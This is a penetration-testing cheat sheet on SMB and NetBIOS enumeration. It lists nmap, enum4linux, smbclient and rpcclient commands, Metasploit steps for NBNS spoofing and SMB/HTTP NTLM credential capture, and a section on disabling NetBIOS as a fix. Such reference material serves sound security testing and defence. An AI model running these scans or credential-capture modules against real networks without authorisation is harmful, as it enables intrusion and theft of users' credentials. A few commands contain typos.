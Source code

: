 # SMB Enumeration (Server Message Block)

## Scanning for the NetBIOS Service

```ShellSession
root@kali:~# nmap -v -p 139,445 192.168.1.12 -oG /tmp/smp.txt
```

## Scanning NetBIOS using nbtscan

```ShellSession
root@kali:~# nbtscan -r 192.168.1.12
```

## Null Session Enumeration

```ShellSession
root@kali:~# enum4linux -a 192.168.1.12
```

## Nmap SMB NSE Scripts

```ShellSession
root@kali:~# ls -la /usr/share/nmap/scripts/smb*
root@kali:~# nmap -v -p 139,445 192.168.1.12 --script smb-os-discovery.nse
```

## SMBCLIENT

```ShellSession
root@kali:~#    smbclient -L=192.168.1.12
```

## Null Sessions

```ShellSession
root@kali:~#    smbclient \\\\192.168.1.12 \\public
Enter root's password:
Anonymous login successful
```

## SMB OS Discovery

```ShellSession
nmap $ip --script smb-os-discovery.ns
```

## Nmap port scan

```ShellSession
nmap -v -p 139,445 -oG smb.txt $ip-254
Netbios Information Scanning
nbtscan -r $ip/24
```

## Nmap find exposed Netbios servers

```ShellSession
nmap -sU --script nbstat.nse -p 137 $ip
```

## Nmap all SMB scripts scan

```ShellSession
nmap -sV -Pn -vv -p 445 --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
```

Nmap all SMB scripts authenticated scan
nmap -sV -Pn -vv -p 445    --script-args smbuser=,smbpass= --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip

SMB Enumeration Tools
nmblookup -A $ip

smbclient //MOUNT/share -I $ip -N

rpcclient -U "" $ip

enum4linux $ip

enum4linux -a $ip

SMB Finger Printing
smbclient -L //$ip

Nmap Scan for Open SMB Shares
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.10.0/24

Nmap scans for vulnerable SMB Servers
nmap -v -p 445 --script=smb-check-vulns --script-args=unsafe=1 $ip

Nmap List all SMB scripts installed
ls -l /usr/share/nmap/scripts/smb*

Enumerate SMB Users
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 $ip-14
      OR
  python /usr/share/doc/python-impacket-doc/examples /samrdump.py $ip

RID Cycling - Null Sessions
ridenum.py $ip 500 50000 dict.txt
Manual Null Session Testing

  Windows:
net use \\$ip\IPC$ "" /u:"
Linux:
smbclient -L //$ip

## SMB Enumeration Techniques using Windows Tools:


1. NetBIOS Enumerator [nbtenum](http://nbtenum.sourceforge.net/)

```ShellSession
[+] NBNS Spoof / Capture

[>] NBNS Spoof
msf > use auxiliary/spoof/nbns/nbns_response
msf auxiliary(nbns_response) > show options
msf auxiliary(nbns_response) > set INTERFACE eth0
msf auxiliary(nbns_response) > set SPOOFIP 10.10.10.10
msf auxiliary(nbns_response) > run

[>] SMB Capture

msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > set JOHNPWFILE /tmp/john_smb
msf auxiliary(smb) > run

[>] HTTP NTML Capture

msf auxiliary(smb) > use auxiliary/server/capture/http_ntlm
msf auxiliary(smb) > set JOHNPWFILE /tmp/john_http
msf auxiliary(smb) > set SRVPORT 80
msf auxiliary(smb) > set URIPATH /
msf auxiliary(smb) > run
```

### SMB Enumeration

```Bash

SMB1   – Windows 2000, XP and Windows 2003.
SMB2   – Windows Vista SP1 and Windows 2008
SMB2.1 – Windows 7 and Windows 2008 R2
SMB3   – Windows 8 and Windows 2012.

```

#### Scanning for the NetBIOS Service

- The SMB NetBIOS32 service listens on TCP ports 139 and 445, as well as several UDP ports.

  ```Bash
  > nmap -v -p 139,445 -oG smb.txt 192.168.11.200-254
  ```

- There are other, more specialized, tools for specifically identifying NetBIOS information

  ```Bash
  > nbtscan -r 192.168.11.0/24
  ```

#### Null Session Enumeration

- A null session refers to an unauthenticated NetBIOS session between two computers. This feature exists to allow unauthenticated machines to obtain browse lists from other Microsoft servers.

- A null session also allows unauthenticated hackers to obtain large amounts of information about the machine, such as password policies, usernames, group names, machine names, user and host SIDs.

- This Microsoft feature existed in SMB1 by default and was later restricted in subsequent versions of SMB.

```Bash

> enum4linux -a 192.168.11.227

```

#### Nmap SMB NSE Scripts

```Bash

# These scripts can be found in the /usr/share/nmap/scripts directory
> ls -l /usr/share/nmap/scripts/smb-
# We can see that several interesting Nmap SMB NSE scripts exist,, such as OS discovery
# and enumeration of various pieces of information from the protocol
> nmap -v -p 139, 445 --script=smb-os-discovery 192.168.11.227
# To check for known SMB protocol vulnerabilities,
# you can invoke the nmap smb-check-vulns script
> nmap -v -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 192.168.11.201

```


## Fix:
http://www.leonteale.co.uk/netbios-nbns-spoofing/

## Solution
The solution to this is to disable Netbios from broadcasting. The setting for this is in, what i hope, a very familiar place thaet you might not have really paid attention too before.

netbios

Netbios, according to Microsoft, is no longer needed as of Windows 2000.

However, there are a few side effects.

One of the unexpected consequences of disabling Netbios completely on your network is how this affects trusts between forests. Windows 2000 let you create an external (non-transitive) trust between a domain in one forest and a domain in a different forest so users in one forest could access resources in the trusting domain of the other forest. Windows Server 2003 takes this a step further by allowing you to create a new type of two-way transitive trusts called forest trusts that allow users in any domain of one forest access resources in any domain of the other forest. Amazingly, NetBIOS is actually still used in the trust creation process, even though Microsoft has officially “deprecated” NetBIOS in versions of Windows from 2000 on. So if you disable Netbios on your domain controllers, you won’t be able to establish a forest trust between two Windows Server 2003 forests.
But Windows 2003 is pretty old, since as of writing we are generally on Windows 2012 now. So if you would like to disable Netbios on your servers yet will be effected by the side effect for Forest trusts then ideally you should upgrade and keep up with the times anyway. alternatively, you can get away with, at the very least, disabling Netbios on your workstations.
See below for step by step instructions on disabling Netbios on workstations:

Windows XP, Windows Server 2003, and Windows 2000
On the desktop, right-click My Network Places, and then click Properties.
Right-click Local Area Connection, and then click Properties
In the Components checked are used by this connection list, double-click Internet Protocol (TCP/IP), clickAdvanced, and then click the WINS tab.Note In Windows XP and in Windows Server 2003, you must double-click Internet Protocol (TCP/IP) in the This connection uses the following items list.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.

For Windows Vista
On the desktop, right-click Network, and then click Properties.
Under Tasks, click Manage network connections.
Right-click Local Area Connection, and then click Properties
In the This connection uses the following items list, double-click Internet Protocol Version 4 (TCP/IPv4), clickAdvanced, and then click the WINS tab.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.

For Windows 7
Click Start, and then click Control Panel.
Under Network and Internet, click View network status and tasks.
Click Change adapter settings.
Right-click Local Area Connection, and then click Properties.
In the This connection uses the following items list, double-click Internet Protocol Version 4 (TCP/IPv4), clickAdvanced, and then click the WINS tab.
Click Use NetBIOS setting from the DHCP server, and then click OK three times.

